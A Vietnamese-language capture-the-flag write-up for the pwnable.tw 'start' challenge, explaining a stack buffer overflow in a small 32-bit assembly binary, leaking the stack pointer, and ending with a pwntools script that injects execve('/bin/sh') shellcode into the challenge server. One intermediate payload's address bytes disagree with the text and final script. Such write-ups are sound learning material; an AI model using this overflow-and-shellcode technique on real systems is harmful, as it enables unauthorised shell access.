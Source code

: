 # [Start] [[pwnable.tw](https://pwnable.tw/)]

>Đây là bài đầu tiên trong chuỗi các bài ```pwn``` (Mình dự định làm các ```chall``` về ```pwn``` trong thời gian sắp tới để học hỏi thêm @.@ và viết ```writeup``` chia sẻ những thứ mình học được).
>
>Trong writeup mình viết theo cách thức mà mình hiểu có thể chưa đúng. Mong mọi người góp ý thêm.


>Just a start.
>
>nc chall.pwnable.tw 10000
>
>[start](https://pwnable.tw/static/chall/start)

Let's start

Cũng như khi làm các ```chall``` về ```RE``` mình thường check kiểu file và thử tìm kiếm một vài strings và thử chạy để có thể có thêm một vài thông tin định hướng cách làm blah blah...

Check kiểu file:

![File type](../image/start_file_type.PNG)

Liệt kê strings:

![Enumrate String](../image/start_strings.PNG)

Chạy thử:

![Run](../image/start_run.PNG)


Qua việc check kiểu file mình có thể thấy đây là file ```ELF 32bit``` (Cái này mình chỉ dùng để mở cho đúng IDA hoy ^^)

Tiếp theo liếc qua các string và để ý đến 2 string đầu là:

```hCTF:hthe hart hs sthLet'```

và

```start.s```

Dựa vào string đầu tiên có thể thấy string này bị đảo ngược(4 kí tự) so với string được in ra khi chạy thử nên có thể lờ mờ đoán rằng string này được push vào stack theo kiểu một số ```DWORD```

Đại loại như sau:

Giả sử ta có strings ```"Let's start the CTF:"``` thường sẽ sử dụng các hàm ```copy``` để gán nó cho một biến trong stack

Nhưng cũng có 1 cách khác là sử dụng push đề copy nó vào stack như sau:

```c
push    ':FTC'
push    ' eht'
push    ' tra'
push    'ts s'
push    ''teL'
```

Điều này có thể giải thích vì sao liệt kê string lại bị ngược như vậy

Tiếp đó là xâu ```start.s``` Dựa vào xâu này mình đoán người ra đề code bằng ```asm``` trên linux

OK đó là tất cả những gì mình có thể thấy khi kiểm tra và chạy thử file

Load chall vào IDA để xem tiếp vậy

![IDA loaded](../image/start_ida.PNG)

Có thể thấy đoạn push string chuẩn như chúng ta nhận định ban đầu

Chương trình được chia làm 2 đoạn là ```_start``` và ```_exit```

Khi bắt đầu ```_start``` ta thấy có 2 lệnh push là

```c
push    esp
push    offset _exit
```

Để đó chưa rõ làm gì

Đọc tiếp thấy ```chall``` này sử dụng ngắt ```int 80h``` để gọi các ```system call``` trong linux kernel

với EAX = 4 ```sys_write``` sẽ được gọi

với EAX = 3 ```sys_read``` sẽ được gọi

Ở ```_exit``` EAX = 1 ```sys_exit``` sẽ được gọi

Chi tiết có thể tham khảo các syscall [tại đây](https://syscalls.kernelgrok.com/)

Bây giờ xem xem có thể khai thác được tại đâu. Với các dạng bài cần ```nc``` vào server như này thì dự là ```flag``` sẽ được đặt trên server. Player sẽ khai thác và đọc flag (nghe EZ v~)

Trong bài này ta thấy. ```sys_read``` cho phep đọc vào tận 0x3C kí tự trong khi ở đoạn tiếp theo chương trình chỉ cộng ```esp``` với 0x14 rồi return

Nếu ta nhập một chuỗi > 0x14 kí tự thì sao???

Bummmm.....! Stack overflow và sau khi lệnh return chương trình sẽ nhảy đến một chỗ nào đó và thực hiện tiếp

Như vậy. cần 2 phần để có thể thực hiện đoạn code mà mình mong muốn với chương trình này

Một là địa chỉ để sau lệnh ```retn``` chương trình quay lại đó thực thi

Hai là đoạn code mà bạn mong muốn chương trình sẽ thực hiện

Với 2 mình tìm được một đoạn shellcode(23 bytes) trên mạng. Có thể tham khảo [tại đây](http://shell-storm.org/shellcode/files/shellcode-827.php)

Giờ ta chỉ cần tìm được đỉa chỉ trả về đề run đoạn shellcode là xong (Nghe vẫn EZ =)) ).

sau ```sys_read``` chương trình cộng ```esp``` với 0x14 - Đây chính là vùng chứa ```offset _exit``` để thực thi sau ```retn```

Vậy nếu ghi đè địa chỉ này thành ```0x08048087``` thì chương trình sẽ quay lại ```0x08048087``` và gọi ```sys_write``` một lần nữa in ra giá trị mà 4 byte đầu tiên chính là giá trị của esp trong lệnh ```push esp``` ở đầu chương trình sau nó nó tiếp tục gọi ```sys_read```. =)) Như vậy ta có thể làm theo 2 bước như sau:

**B1:** Lấy giá trị của ```esp```

**B2:** Chèn shellcode để gọi ra "/bin/sh"

(Nghe tiếp tục EZ)

Để thực hiện **B1** ta cần đoạn payload như sau

```python
    payload = 20 * 'a' + '\x87\x90\x04\x08'
```

Sau đó sẽ xử lý giá trị nhận được và có được ```esp```

Tiếp tục **B2** payload sẽ là:

```python
payload2 = '20' * a + <địa chỉ esp + 0x14> + shelcode
```

fullcode:

```python
from pwn import * 

host = "chall.pwnable.tw"
port = 10000

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

con = remote(host, port)
print con.recv(1024)

get_sp_string = 20 * 'a' + '\x87\x80\x04\x08'
con.send(get_sp_string)
sp_addr = u32(con.recv(1024)[0:4])

real_shellcode = 20 * 'a' + p32(sp_addr + 20) + shellcode
con.send(real_shellcode)
con.interactive()
con.close()
```